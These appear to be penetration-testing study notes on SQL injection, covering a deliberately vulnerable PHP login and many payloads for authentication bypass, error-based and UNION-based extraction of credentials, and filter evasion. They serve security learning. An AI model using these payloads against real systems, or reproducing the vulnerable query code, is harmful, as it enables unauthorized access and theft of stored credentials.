

# SQL Injection (SQLi) Notes

## Overview
- **OWASP Ranking**: 3rd in Top 10 Application Security Risks (A03:2021-Injection)
- **Definition**: Web application vulnerability allowing attackers to manipulate SQL queries between web app and database
- **Impact**: Extends original queries to access normally inaccessible database tables

## Learning Objectives
- SQL Theory Fundamentals
- Different Database Types & Syntax
- Manual SQL Exploitation Techniques
- SQL Attack Automation

---

## SQL Theory & Database Fundamentals

### Web Application Architecture
- **Frontend**: User-facing interface (HTML, CSS, JavaScript)
- **Backend**: Server-side application layer (PHP, Java, Python)
- **Database**: Data storage layer with SQL interface

### Popular Database Types
- MySQL
- Microsoft SQL Server
- PostgreSQL
- Oracle
- *Note*: Each has unique syntax, commands, and functions

---

## Basic SQL Syntax

### SELECT Statement Structure
```sql
SELECT * FROM users WHERE user_name='leon'
```
- `SELECT *`: Retrieve all columns
- `FROM users`: Target table name
- `WHERE user_name='leon'`: Filter condition

### Embedded SQL in PHP (Vulnerable Example)
```php
<?php
$uname = $_POST['uname'];
$passwd = $_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

**Key Vulnerability Points:**
- Direct insertion of user input into SQL query
- No input validation or sanitization
- Variables retrieved from POST request without filtering

---

## SQLi Attack Fundamentals

### How SQLi Works
- User input directly concatenated into SQL queries
- Special characters not filtered or escaped
- Allows modification of intended SQL logic

### Basic Attack Example
**Normal Input:**
- User enters: `leon`
- Query becomes: `SELECT * FROM users WHERE user_name= 'leon'`

**Malicious Input:**
- User enters: `leon'+!@#$`
- Query becomes: `SELECT * FROM users WHERE user_name= 'leon'+!@#$`
- Breaks query syntax and can be exploited

### Attack Capabilities
- **Query**: Extract data from database
- **Insert**: Add malicious data
- **Modify**: Alter existing records
- **Delete**: Remove data
- **OS Commands**: Execute system commands (in some cases)

---

## Key Technical Points

### mysqli_query Function
- `i` stands for "improved" (not injection)
- PHP function for database interaction
- Executes SQL queries against database

### Vulnerability Root Cause
- **Lack of input validation**
- **Direct string concatenation**
- **No parameterized queries**
- **Missing special character filtering**

---

## Attack Methodology Overview
1. **SQL Enumeration**: Identify database structure
2. **Database Fingerprinting**: Determine DB type and version
3. **Manual Exploitation**: Craft custom payloads
4. **Automated Exploitation**: Use tools for systematic testing

---

## Database Types & Syntax Details

### MySQL Database

#### Connection Commands
```bash
# Connect to remote MySQL instance
mysql -u root -p'root' -h 192.168.50.16 -P 3306

# If TLS/SSL error occurs, add:
mysql -u root -p'root' -h 192.168.50.16 -P 3306 --skip-ssl
```

#### Core MySQL Functions & Commands
```sql
-- Get database version
SELECT version();

-- Get current user and hostname
SELECT system_user();

-- List all databases
SHOW databases;

-- Select specific database
USE database_name;

-- Get user password hash
SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';
```

#### MySQL System Information
- **Default Port**: 3306
- **Password Storage**: Caching-SHA-256 algorithm in `authentication_string` field
- **Default Databases**: `information_schema`, `mysql`, `performance_schema`, `sys`
- **Related**: MariaDB (open-source MySQL fork)

#### MySQL Query Structure
```sql
SELECT * FROM users WHERE user_name='leon'
```

---

### Microsoft SQL Server (MSSQL)

#### Connection Commands
```bash
# Connect via Impacket (from Kali Linux)
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth

# Windows native connection
sqlcmd -S server_name -U username -P password
```

#### Core MSSQL Functions & Commands
```sql
-- Get OS and SQL Server version
SELECT @@version;

-- List all databases
SELECT name FROM sys.databases;

-- Inspect tables in specific database
SELECT * FROM database_name.information_schema.tables;

-- Query specific table with schema
SELECT * FROM database_name.dbo.table_name;
```

#### MSSQL System Information
- **Default Port**: 1433
- **Protocol**: Tabular Data Stream (TDS)
- **Authentication**: NTLM or Kerberos
- **Default Databases**: `master`, `tempdb`, `model`, `msdb`
- **Schema**: Uses `dbo` (database owner) schema by default

#### MSSQL Query Syntax Differences
- **Command Termination**: Semicolon + `GO` on separate line (for sqlcmd)
- **Remote Queries**: Can omit `GO` statement (not part of TDS protocol)
- **Schema Specification**: `database.schema.table` format (e.g., `offsec.dbo.users`)

#### MSSQL Connection Example Output
```
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
```

#### MSSQL Enumeration Examples
```sql
-- List tables in custom database
SELECT * FROM offsec.information_schema.tables;

-- Query user data with schema
SELECT * FROM offsec.dbo.users;
```

---

### Database Comparison Summary

| Feature | MySQL | MSSQL |
|---------|-------|-------|
| **Default Port** | 3306 | 1433 |
| **Version Function** | `version()` | `@@version` |
| **User Function** | `system_user()` | `USER_NAME()` |
| **List Databases** | `SHOW databases;` | `SELECT name FROM sys.databases;` |
| **Schema Format** | `database.table` | `database.schema.table` |
| **Command Tools** | `mysql` | `sqlcmd`, `impacket-mssqlclient` |
| **Authentication** | Username/Password | NTLM, Kerberos, SQL Auth |

---

### Key Technical Notes

#### MySQL Specifics
- **Connection**: Direct TCP connection on port 3306
- **Error Handling**: `ERROR 2026 (HY000)` for TLS/SSL issues
- **Password Hashing**: Modern versions use Caching-SHA-256
- **Cloud Deployment**: Available on AWS RDS, Google Cloud SQL, Azure Database

#### MSSQL Specifics
- **Windows Integration**: Native Windows ecosystem integration
- **Protocol**: TDS (Tabular Data Stream) for communication
- **Authentication**: Windows Authentication preferred over SQL Authentication
- **Tools**: 
  - **Windows**: `sqlcmd` (built-in)
  - **Linux**: `impacket-mssqlclient` (Impacket framework)
- **Cloud Deployment**: Azure SQL Database, AWS RDS for SQL Server

#### Important Considerations
- **Syntax Variations**: Each database has unique functions and syntax
- **Default Databases**: Always present, contain system information
- **Custom Databases**: Target for actual application data
- **Schema Awareness**: MSSQL requires schema specification (`dbo` is default)

---

# SQL Injection Attack Types

## Error-Based SQL Injection

### Overview
- **Definition**: Exploits database error messages to extract information
- **Classification**: In-band SQLi (results returned directly in application response)
- **Requirement**: Application must display database error messages
- **Risk**: High - Can lead to authentication bypass and data extraction

### Attack Methodology Flow



---

### Phase 1: Initial Detection

#### Vulnerable Code Pattern
```php
<?php
$uname = $_POST['uname'];
$passwd = $_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

#### Detection Payloads
```sql
-- Basic quote test
'

-- Extended quote test  
admin'

-- Comment injection test
admin'--

-- Union test
admin' UNION SELECT 1--
```

#### Expected Error Responses
```
MySQL Error Examples:
- "You have an error in your SQL syntax"
- "MySQL server version for the right syntax"
- "Operand should contain 1 column(s)"

MSSQL Error Examples:
- "Incorrect syntax near"
- "Unclosed quotation mark after"
- "Conversion failed when converting"
```

---

### Phase 2: Authentication Bypass

#### Basic Bypass Payload
```sql
-- Payload structure
offsec' OR 1=1 -- //

-- How it works:
-- Original: SELECT * FROM users WHERE user_name= 'INPUT' AND password='PASSWORD'
-- Becomes: SELECT * FROM users WHERE user_name= 'offsec' OR 1=1 -- //' AND password='PASSWORD'
-- Result: Always true condition, returns first user
```

#### Comment Syntax Variations
```sql
-- MySQL Comments
' OR 1=1 -- //        (Standard comment)
' OR 1=1 #            (Hash comment)
' OR 1=1 /*comment*/  (Block comment)

-- MSSQL Comments  
' OR 1=1 --           (Standard comment)
' OR 1=1 /*comment*/  (Block comment)
```

#### Advanced Bypass Payloads
```sql
-- Boolean-based bypass
admin' OR 'a'='a' -- //

-- Numeric bypass (if ID field)
1 OR 1=1 -- //

-- String concatenation bypass
admin' OR 'x'='x

-- Always true conditions
' OR 1=1 OR ''='
' OR 2>1 -- //
```

---

### Phase 3: Information Extraction

#### Database Version Extraction
```sql
-- MySQL version extraction
' OR 1=1 IN (SELECT @@version) -- //
' OR 1=1 IN (SELECT version()) -- //

-- MSSQL version extraction  
' OR 1=1 IN (SELECT @@version) -- //

-- Expected output format:
-- MySQL: "8.0.28-0ubuntu0.20.04.3"
-- MSSQL: "Microsoft SQL Server 2019 (RTM)..."
```

#### Database Enumeration Payloads
```sql
-- List databases (MySQL)
' OR 1=1 IN (SELECT schema_name FROM information_schema.schemata) -- //

-- List databases (MSSQL)
' OR 1=1 IN (SELECT name FROM sys.databases) -- //

-- List tables in current database
' OR 1=1 IN (SELECT table_name FROM information_schema.tables) -- //

-- List columns in specific table
' OR 1=1 IN (SELECT column_name FROM information_schema.columns WHERE table_name='users') -- //
```

#### Data Extraction Techniques
```sql
-- Extract all data (will cause error - too many columns)
' OR 1=1 IN (SELECT * FROM users) -- //

-- Extract single column
' OR 1=1 IN (SELECT password FROM users) -- //

-- Extract specific user data
' OR 1=1 IN (SELECT password FROM users WHERE username = 'admin') -- //

-- Extract with concatenation (MySQL)
' OR 1=1 IN (SELECT CONCAT(username,':',password) FROM users WHERE username = 'admin') -- //

-- Extract with concatenation (MSSQL)
' OR 1=1 IN (SELECT username + ':' + password FROM users WHERE username = 'admin') -- //
```

---

### Error-Based Extraction Techniques

#### MySQL Error Functions
```sql
-- Using EXTRACTVALUE (MySQL 5.1+)
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT @@version), 0x7e)) -- //

-- Using UPDATEXML (MySQL 5.1+)
' AND UPDATEXML(1, CONCAT(0x7e, (SELECT @@version), 0x7e), 1) -- //

-- Using EXP overflow (MySQL 5.5+)
' AND EXP(~(SELECT * FROM (SELECT @@version)x)) -- //

-- Using FLOOR error
' AND (SELECT COUNT(*) FROM information_schema.tables GROUP BY CONCAT(@@version, FLOOR(RAND(0)*2))) -- //
```

#### MSSQL Error Functions
```sql
-- Using CAST conversion error
' AND 1=CAST((SELECT @@version) AS INT) -- //

-- Using CONVERT error
' AND 1=CONVERT(INT, (SELECT @@version)) -- //

-- Using arithmetic error
' AND 1/(SELECT COUNT(*) FROM sys.databases WHERE name='master')=1 -- //
```

---

### Payload Construction Patterns

#### Basic Pattern Structure
```
[QUOTE_ESCAPE] [LOGIC_OPERATOR] [CONDITION] [INJECTION_POINT] [COMMENT]

Examples:
' OR 1=1 IN (SELECT @@version) -- //
" OR 1=1 IN (SELECT table_name FROM information_schema.tables) #
' OR 1=1 AND (SELECT SUBSTRING(@@version,1,10)) -- //
```

#### Advanced Pattern Techniques
```sql
-- Substring extraction (character by character)
' OR 1=1 AND (SELECT SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))='a' -- //

-- Length determination
' OR 1=1 AND (SELECT LENGTH(password) FROM users WHERE username='admin')=32 -- //

-- Character-by-character extraction
' OR 1=1 AND (SELECT ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)))=97 -- //
```

---

### Error-Based SQLi Testing Checklist

#### Initial Testing
- [ ] Test single quote (`'`) for SQL errors
- [ ] Test double quote (`"`) for SQL errors  
- [ ] Test backslash (`\`) for escaping errors
- [ ] Test semicolon (`;`) for statement termination
- [ ] Test comment syntax (`--`, `#`, `/* */`)

#### Authentication Bypass Testing
- [ ] `' OR 1=1 -- //`
- [ ] `' OR 'a'='a' -- //`
- [ ] `admin' OR 1=1 -- //`
- [ ] `' OR 1=1 #`
- [ ] `1 OR 1=1 -- //` (for numeric fields)

#### Information Extraction Testing
- [ ] Database version extraction
- [ ] Current user extraction
- [ ] Database name extraction
- [ ] Table enumeration
- [ ] Column enumeration
- [ ] Data extraction

#### Advanced Error Techniques
- [ ] MySQL: EXTRACTVALUE, UPDATEXML, EXP functions
- [ ] MSSQL: CAST, CONVERT errors
- [ ] Substring extraction methods
- [ ] Character-by-character extraction

---

### Common Error Messages & Meanings

#### MySQL Errors
```
"Subquery returns more than 1 row"
→ Multiple results returned, need to limit to single row

"Operand should contain 1 column(s)" 
→ UNION SELECT has wrong number of columns

"You have an error in your SQL syntax"
→ Malformed query, check quote escaping

"Duplicate entry"
→ Trying to insert duplicate primary key
```

#### MSSQL Errors
```
"Conversion failed when converting the varchar value 'X' to data type int"
→ Perfect for data extraction (X = extracted data)

"Incorrect syntax near 'X'"
→ SQL syntax error at position X

"Invalid column name 'X'"
→ Column X doesn't exist in table
```

---

### Error-Based SQLi Limitations

#### Technical Limitations
- **Error Display Required**: Application must show database errors
- **Single Value Extraction**: Most techniques extract one value at a time
- **Character Limits**: Error messages may truncate long data
- **Query Complexity**: Complex queries may not trigger useful errors

#### Mitigation Bypasses
- **Error Suppression**: Try different error functions if one is blocked
- **Character Encoding**: Use hex/unicode encoding for special characters
- **Case Sensitivity**: Try different case combinations
- **Alternative Syntax**: Use database-specific syntax variations

---

## UNION-Based SQL Injection

### Overview
- **Definition**: Combines results from multiple SELECT statements using UNION clause
- **Classification**: In-band SQLi (results displayed directly in application response)
- **Capability**: Extract data from multiple tables and databases in single query
- **Requirements**: Same number of columns + compatible data types

### UNION Clause Fundamentals

#### Basic UNION Syntax
```sql
-- Basic UNION structure
SELECT column1, column2 FROM table1 
UNION 
SELECT column1, column2 FROM table2;

-- Example combining two tables
SELECT code, city FROM ports 
UNION 
SELECT ship, city FROM ships;
```

#### UNION Requirements
1. **Equal Column Count**: Both SELECT statements must return same number of columns
2. **Compatible Data Types**: Corresponding columns must have compatible data types
3. **Column Order**: Results combined based on column position

---

### UNION Injection Methodology

#### Phase 1: Column Count Detection

##### Method 1: ORDER BY Technique
```sql
-- Start with column 1 and increment until error
' ORDER BY 1-- //     (Success - table has at least 1 column)
' ORDER BY 2-- //     (Success - table has at least 2 columns)
' ORDER BY 3-- //     (Success - table has at least 3 columns)
' ORDER BY 4-- //     (Success - table has at least 4 columns)
' ORDER BY 5-- //     (Error - table has exactly 4 columns)

-- Expected error message:
-- "Unknown column '5' in 'order clause'"
```

##### Method 2: UNION SELECT Technique
```sql
-- Start with assumed column count and adjust
' UNION SELECT 1-- //           (Error - wrong column count)
' UNION SELECT 1,2-- //         (Error - wrong column count)
' UNION SELECT 1,2,3-- //       (Error - wrong column count)
' UNION SELECT 1,2,3,4-- //     (Success - 4 columns confirmed)

-- Expected error message:
-- "The used SELECT statements have a different number of columns"
```

#### Phase 2: Identify Displayed Columns
```sql
-- Test which columns are visible in application output
' UNION SELECT 1,2,3,4,5-- //

-- Example result shows only columns 2,3,4 are displayed:
-- Output: [2] [3] [4]
-- This means column 1 and 5 are not shown to user
```

#### Phase 3: Information Gathering
```sql
-- Database version (place in visible column)
' UNION SELECT null, @@version, null, null-- //

-- Current database name
' UNION SELECT null, database(), null, null-- //

-- Current user
' UNION SELECT null, user(), null, null-- //

-- Combined information extraction
' UNION SELECT null, database(), user(), @@version-- //
```

---

### Advanced UNION Payloads

#### Database Enumeration
```sql
-- List all databases (MySQL)
' UNION SELECT null, schema_name, null, null FROM information_schema.schemata-- //

-- List all databases (MSSQL)
' UNION SELECT null, name, null, null FROM sys.databases-- //

-- List tables in current database
' UNION SELECT null, table_name, null, null FROM information_schema.tables WHERE table_schema=database()-- //

-- List tables in specific database
' UNION SELECT null, table_name, null, null FROM information_schema.tables WHERE table_schema='target_db'-- //
```

#### Table Structure Analysis
```sql
-- Get columns for specific table
' UNION SELECT null, column_name, data_type, null FROM information_schema.columns WHERE table_name='users'-- //

-- Get table and column information together
' UNION SELECT null, table_name, column_name, table_schema FROM information_schema.columns WHERE table_schema=database()-- //

-- Count rows in table
' UNION SELECT null, COUNT(*), null, null FROM users-- //
```

#### Data Extraction Techniques
```sql
-- Extract user data
' UNION SELECT null, username, password, email FROM users-- //

-- Extract specific user
' UNION SELECT null, username, password, null FROM users WHERE username='admin'-- //

-- Extract with concatenation (MySQL)
' UNION SELECT null, CONCAT(username,':',password), null, null FROM users-- //

-- Extract with concatenation (MSSQL)  
' UNION SELECT null, username + ':' + password, null, null FROM users-- //

-- Extract multiple rows (limit results)
' UNION SELECT null, username, password, null FROM users LIMIT 0,1-- //
' UNION SELECT null, username, password, null FROM users LIMIT 1,1-- //
```

---

### Handling Different Column Scenarios

#### Uneven Column Counts
```sql
-- Original query has 4 columns, target table has 2
-- Fill extra columns with NULL or junk data

-- Using NULL (recommended - fits all data types)
' UNION SELECT username, password, NULL, NULL FROM users-- //

-- Using numbers (good for tracking column positions)
' UNION SELECT username, password, 3, 4 FROM users-- //

-- Using strings (must match data type)
' UNION SELECT username, password, 'junk1', 'junk2' FROM users-- //
```

#### Data Type Compatibility
```sql
-- If columns expect specific data types:

-- Integer column
' UNION SELECT 1, username, password, 4 FROM users-- //

-- String column  
' UNION SELECT 'admin', username, password, 'data' FROM users-- //

-- Mixed types
' UNION SELECT id, username, password, created_date FROM users-- //
```

---

### UNION Injection Attack Patterns

#### Basic Pattern Structure
```
[CLOSE_QUOTE] UNION SELECT [COL1],[COL2],[COL3],[COL4] FROM [TABLE]-- [COMMENT]

Examples:
' UNION SELECT null,username,password,null FROM users-- //
' UNION SELECT 1,@@version,database(),user()-- //
%' UNION SELECT null,table_name,null,null FROM information_schema.tables-- //
```

#### Advanced Pattern Variations
```sql
-- Multiple table joins
' UNION SELECT u.username, u.password, p.profile_data, null 
  FROM users u JOIN profiles p ON u.id=p.user_id-- //

-- Conditional extraction
' UNION SELECT null, 
  CASE WHEN LENGTH(password)>10 THEN username ELSE 'short' END,
  password, null FROM users-- //

-- Subquery extraction
' UNION SELECT null, 
  (SELECT COUNT(*) FROM users), 
  (SELECT username FROM users LIMIT 0,1), 
  null-- //
```

---

### UNION SQLi Testing Checklist

#### Column Detection Phase
- [ ] Test `ORDER BY 1,2,3...` until error
- [ ] Test `UNION SELECT 1,2,3...` until success
- [ ] Identify visible columns using numbered placeholders
- [ ] Verify data types of each column

#### Information Gathering Phase
- [ ] Extract database version (`@@version`)
- [ ] Extract current database (`database()`)
- [ ] Extract current user (`user()`)
- [ ] List all databases
- [ ] List tables in target database
- [ ] List columns in target tables

#### Data Extraction Phase
- [ ] Extract user credentials
- [ ] Extract sensitive configuration data
- [ ] Extract application-specific data
- [ ] Test data extraction from multiple tables

---

### Common UNION Errors & Solutions

#### Error Messages & Fixes
```sql
-- Error: "The used SELECT statements have a different number of columns"
-- Solution: Adjust column count in UNION SELECT

-- Error: "Illegal mix of collations"  
-- Solution: Use CONVERT() or CAST() functions

-- Error: "Operand should contain 1 column(s)"
-- Solution: Ensure subqueries return single column

-- Error: "Subquery returns more than 1 row"
-- Solution: Use LIMIT or WHERE clause to restrict results
```

#### Troubleshooting Techniques
```sql
-- Test basic UNION functionality
' UNION SELECT 'test',NULL,NULL,NULL-- //

-- Check data type compatibility
' UNION SELECT 1,'string',NULL,NULL-- //

-- Verify column visibility
' UNION SELECT 'col1','col2','col3','col4'-- //

-- Test with different quote types
" UNION SELECT NULL,username,password,NULL FROM users-- //
```

---

### UNION vs Error-Based Comparison

| Feature | UNION-Based | Error-Based |
|---------|-------------|-------------|
| **Data Volume** | Multiple rows at once | Single value per query |
| **Visibility** | Results in normal output | Results in error messages |
| **Requirements** | Column count matching | Error display enabled |
| **Stealth** | More obvious in logs | Can appear as accidents |
| **Efficiency** | High (bulk extraction) | Low (iterative extraction) |

---

### Advanced UNION Techniques

#### Bypassing Filters
```sql
-- Case variation bypass
' uNiOn SeLeCt null,username,password,null FROM users-- //

-- Comment variation bypass
' UNION/**/SELECT/**/null,username,password,null/**/FROM/**/users--+

-- Encoding bypass (URL encoded)
'%20UNION%20SELECT%20null,username,password,null%20FROM%20users--%20//

-- Double encoding bypass
'%2520UNION%2520SELECT%2520null,username,password,null%2520FROM%2520users
```

#### Time-Based UNION (when output not visible)
```sql
-- MySQL time delay
' UNION SELECT null,IF(1=1,SLEEP(5),0),null,null-- //

-- MSSQL time delay
' UNION SELECT null,CASE WHEN 1=1 THEN (SELECT COUNT(*) FROM sysusers AS sys1, sysusers AS sys2, sysusers AS sys3, sysusers AS sys4, sysusers AS sys5, sysusers AS sys6, sysusers AS sys7, sysusers AS sys8) ELSE 0 END,null,null-- //
```
